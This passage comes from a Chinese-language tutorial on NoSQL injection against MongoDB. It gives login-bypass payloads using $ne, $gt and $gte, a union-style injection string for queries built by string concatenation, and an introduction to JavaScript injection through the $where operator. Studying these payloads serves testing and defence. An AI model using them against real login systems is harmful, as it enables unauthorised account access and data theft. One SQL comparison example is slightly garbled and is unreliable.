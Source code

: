 ```
username[$ne]=&password[$ne]=
username[$gt]=&password[$gt]=
username[$gte]=&password[$gte]=
```

这种重言式注入的方式也是我们通常用来验证网站是否存在 NoSQL 注入的第一步。

### 联合查询注入

在 MongoDB 之类的流行数据存储中，JSON 查询结构使得联合查询注入攻击变得比较复杂了，但也是可以实现的。

我们都知道，直接对 SQL 查询语句进行字符拼接串容易造成 SQL 注入，NoSQL 也有类似问题。如下实例，假设后端的 MongoDB 查询语句使用了字符串拼接：

```
string query ="{ username: '" + $username + "', password: '" + $password + "' }"
```

当用户正确的用户名密码进行登录时，得到的查询语句是应该这样的：

```sql
{'username':'admin', 'password':'123456'}
```

如果此时没有很好地对用户的输入进行过滤或者效验，那攻击者便可以构造如下 payload：

```sql
username=admin', $or: [ {}, {'a': 'a&password=' }], $comment: '123456
```

拼接入查询语句后相当于执行了：

```
{ username: 'admin', $or: [ {}, {'a':'a', password: '' }], $comment: '123456'}
```

此时，只要用户名是正确的，这个查询就可以成功。这种手法和 SQL 注入比较相似：

```
select * from logins where username = 'admin' and (password true<> or ('a'='a' and password = ''))
```

这样，原本正常的查询语句会被转换为忽略密码的，在无需密码的情况下直接登录用户账号，因为 `()` 内的条件总是永真的。

但是现在无论是 PHP 的 MongoDB Driver 还是 Nodejs 的 Mongoose 都必须要求查询条件必须是一个数组或者 Query 对象了，因此这种注入方法简单了解一下就好了。

### JavaScript 注入

MongoDB Server 是支持 JavaScript 的，**可以使用 JavaScript 进行一些复杂事务和查询**，也允许在查询的时候执行 JavaScript 代码。但是如果传递不干净的用户输入到这些查询中，则可能会注入任意的 JavaScript 代码，导致非法的数据获取或篡改。

#### $where 操作符

首先我们需要了解一下 `$where` 操作符。在 MongoDB 中，`$where` 操作符可以用来执行 JavaScript 代码，将 JavaScript 表达式的字符串或 JavaScript 函数作为查询语句的一部分。

在 MongoDB 2.4 之前，通过 `$where` 操作符使用 `map-reduce`、`group` 命令甚至可以访问到 Mongo Shell 中的全局函数和属性，如 `db`，也就是说可以在自定义的函数里获取数据库的所有信息。

如下实例：

```sql
> db.users.find({ $where: "function(){return(this.username == 'whoami')}" })
{ "_id" : ObjectId("60fa9c80257f18542b68c4b9"), "username" : "whoami", "password" : "657260" }
>
```
